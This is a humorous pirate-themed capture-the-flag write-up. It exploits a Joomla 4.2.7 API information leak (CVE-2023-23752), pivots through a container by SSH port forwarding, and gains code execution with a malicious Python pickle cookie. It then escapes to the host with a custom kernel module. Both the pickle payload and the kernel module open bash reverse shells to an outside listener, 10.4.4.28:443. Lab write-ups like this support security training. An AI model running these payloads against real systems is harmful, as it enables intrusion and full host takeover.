 ## Summary
Ahoy, matey! 🏴‍☠️  
In this epic cyber-voyage, we’ll exploit Joomla!’s gossiping API, sneak into a container using a stolen map (aka credentials), conjure dark magic with Python pickle, and finally unleash chaos by dropping a kernel module anchor straight into the host. And don’t worry—I sprinkled in humor to keep seasickness away.

---

## 1. Scouting the Shores: Initial Enumeration

The ship’s telescope (aka `nmap`) revealed our island’s secrets:

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.58.82
```

Behold! Two SSH docks (22 & 2222) and a bustling Joomla! bazaar on port 80.

### Joomla! Gossip Hour
Curiosity made us peek behind Joomla!’s curtains:

```bash
curl http://10.10.58.82/administrator/manifests/files/joomla.xml
```

Version 4.2.7. Known for being chatty with strangers.

### Sweet-Talking with CVE-2023-23752
Joomla! spilled its secrets when we asked nicely:

```bash
curl http://10.10.58.82/api/index.php/v1/config/application?public=true
```

Credentials? Oh yes—but shh 🤫 (they’re **[REDACTED]**).

### Boarding the First Ship (SSH)
Armed with redacted loot, we waltzed in:

```bash
ssh root@10.10.58.82 -p 2222
```

Welcome to container **f5eb774507f2**. You’re root, baby. Evil laughter recommended.

---

## 2. Cross-Deck Pivot: Insecure Deserialization

### Spotting the Flotilla
Containers everywhere! We sniffed around:

```bash
ip a
nmap -sn 192.168.100.0/24
nmap -p- 192.168.100.12
```

Treasure found on `192.168.100.12:5000` — the infamous **Secret Finance Panel**.

### Smuggling Goods with Port Forwarding
We tunneled it back to our deck:

```bash
ssh root@10.10.58.82 -p 2222 -L 5000:192.168.100.12:5000
```

### The Cookie Jar of Doom
Logged in with whatever nonsense, and Joomla!’s cousin handed us a **pickle-shaped cookie** (looked more like Frankenstein).  
But instead of eating it, we weaponized it.

### Brewing a Malicious Pickle
Our Python cauldron bubbled with dark magic:

```python
import pickle, os
class Malicious:
    def __reduce__(self):
        return (os.system, ("/bin/bash -c 'bash -i >& /dev/tcp/10.4.4.28/443 0>&1'",))
print(pickle.dumps(Malicious()).hex())
```

This hex string became our golden ticket 🎟️.

### Listener and Payload Showtime
- Listener on our side:

```bash
nc -lvnp 443
```

- Smuggled the payload cookie back:

```bash
curl http://127.0.0.1:5000/ -H "Cookie: session_data=YOUR_MALICIOUS_HEX"
```

Shell appeared! Stabilized it with some bash gymnastics.  
The first treasure chest opened: **User Flag = [REDACTED]**.

---

## 3. Breaking Chains: Container Escape

### Discovering Superpowers
Turns out, our container had the ability to **load kernel modules**.  
Like giving Thor his hammer back. ⚡

```bash
capsh --print
```

Look! You wield `cap_sys_module` — time to load your “escape hatch.”

### Writing the Escape Hatch
We forged a kernel module (`shell.c`) that whispered to the host:  
“Give me root… or else.”

```bash
cd /tmp
cat > shell.c << 'EOF'
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kmod.h>
MODULE_LICENSE("GPL");
static int shell(void) {
  char *argv[] = {
    "/bin/bash","-c",
    "bash -i >& /dev/tcp/10.4.4.28/443 0>&1", NULL };
  static char *env[] = {
    "HOME=/","TERM=linux","PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };
  return call_usermodehelper(argv[0], argv, env, UMH_WAIT_PROC);
}
module_init(shell);
module_exit(shell);
EOF
```

### Creating a Tab-Friendly Makefile
Because even pirates need tidy work:

```bash
printf 'obj-m += shell.o

all:
	make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) modules

clean:
	make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) clean
' > Makefile
```

### Compiling & Loading the Module
The blacksmiths (aka `make`) forged our tool:

```bash
make clean
make
ls -la shell.ko
insmod shell.ko
```

### Reaping Your Reward
And like a siren’s song, the host gave in. Another shell purred back:

```bash
nc -lvnp 443
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
cat /root/root.txt
```

Final treasure chest unlocked: **Root Flag = [REDACTED]**.

---

## 4. Final Reflections & High-Fives

- **Joomla! API**: Like that one relative who overshares at dinner.  
- **Pickle RCE**: Proof Python pickles are scarier than grandma’s fruitcake.  
- **Kernel Modules**: Definitely not toys. Treat them like nuclear launch codes.  

Congratulations, Captain! 🎉  
You’ve conquered the Voyage, survived the seas of CMS exploits, Docker currents, and kernel storms—all without a lifejacket. 🏆  

---
